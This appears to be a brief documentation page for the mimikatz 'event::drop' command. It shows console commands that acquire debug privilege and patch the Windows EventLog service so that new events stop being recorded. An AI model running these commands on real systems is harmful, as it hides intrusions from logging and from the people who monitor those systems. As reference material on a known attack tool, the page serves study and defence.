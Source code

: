 # drop

`event::drop` can be used to patch event services to avoid new events ( :warning: experimental)

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # event::drop
"EventLog" service patched
```

